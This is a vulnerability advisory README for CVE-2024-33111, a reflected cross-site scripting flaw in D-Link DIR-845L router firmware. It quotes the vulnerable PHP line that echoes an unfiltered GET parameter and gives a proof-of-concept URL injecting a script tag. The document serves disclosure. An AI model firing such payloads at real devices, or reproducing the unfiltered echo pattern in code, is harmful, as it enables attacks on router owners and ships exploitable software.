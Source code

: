# CVE-2024-33111
D-Link DIR-845L routers version 1.01KRb03 and below are vulnerable to Cross Site Scripting (XSS) via `/htdocs/webinc/js/bsc_sms_inbox.php`.

## Vulnerable Component

- `/htdocs/webinc/js/bsc_sms_inbox.php`

## Technical Details

The vulnerability is due to the lack of filtering in the parameter `$_GET["Treturn"]` which is directly used in code on line 17 of `bsc_sms_inbox.php`.

The vulnerable code snippet:
```php
var get_Treturn = '`<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';
```

# PoC

```
http://IP:8080/bsc_sms_inbox.php?Treturn=%27%3C/script%3E%3Cscript%3Ealert(1337)%3C/script%3E
```

![image](https://github.com/FaLLenSKiLL1/CVE-2024-33111/assets/43922662/a2df5388-67b6-4c3c-9f97-424d7b55878d)
